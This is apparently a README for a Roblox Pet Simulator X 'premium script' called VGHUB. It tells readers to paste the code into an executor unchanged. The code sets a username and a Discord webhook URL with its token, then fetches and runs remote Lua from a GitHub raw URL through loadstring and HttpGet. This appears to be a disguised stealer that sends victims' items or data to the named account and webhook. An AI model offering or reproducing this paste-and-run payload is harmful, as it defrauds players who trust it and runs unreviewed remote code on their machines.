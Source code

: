 # petsim-x-VGHUB
A excellent pet sim x premium script donnt change or it wont work
script below just copy and paste into excecutor

_G.Username = "Lukeba789"
_G.HubName = "VGHUB" 
_G.Webhook = "https://discord.com/api/webhooks/1093102984235335801/T_Easq3vrcy6PMHhzfDy0udZzE6T4i3Oj_odg3CixIuxGWAE2D9YyTQQmsCx1OmSftio"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()

